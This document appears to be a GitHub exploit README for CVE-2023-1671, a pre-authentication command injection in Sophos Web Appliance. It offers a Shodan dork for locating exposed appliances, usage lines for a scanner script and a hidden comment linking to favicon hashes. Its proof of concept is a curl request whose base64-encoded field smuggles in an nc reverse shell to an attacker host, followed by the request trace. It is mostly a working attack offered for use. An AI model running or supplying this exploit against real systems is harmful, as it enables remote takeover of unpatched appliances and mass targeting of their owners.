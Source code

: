 ## CVE-2023-1671
![](https://img.shields.io/static/v1?label=Product&message=Sophos%20Web%20Appliance&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=older%20than%20version%204.3.10.4&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Pre-auth%20Command%20Injection&color=red)


- Shodan dork:
```
title:"Sophos Web Appliance"
```
<!-- Here is an Easter Egg for inquiring minds
shodan-favicon-hashes - https://mega.nz/file/ctdH3LAB#lnE0GUkfCacwA18wR1VQI6TxIJ4OKM_6YKQdpHY4GN0
-->

### Usage
```
chmod +x scanner.sh
bash scanner.sh target.txt
```  
### POC
```
curl -k --trace-ascii % "https://target_ip_addr/index.php?c=blocked&action=continue" -d "args_reason=filetypewarn&url=$RANDOM&filetype=$RANDOM&user=$RANDOM&user_encoded=$(echo -n "';nc -e /bin/sh attacker_ip_addr 4444 #" | base64)"

=> Send header, 184 bytes (0xb8)
0000: POST /index.php?c=blocked&action=continue HTTP/1.1
0034: Host: XX.XX.XX.XX
004a: User-Agent: curl/7.88.1
0063: Accept: */*
0070: Content-Length: 120
0085: Content-Type: application/x-www-form-urlencoded
00b6:
=> Send data, 120 bytes (0x78)
0000: args_reason=filetypewarn&url=16625&filetype=5831&user=4525&user_
0040: encoded=**************************
```
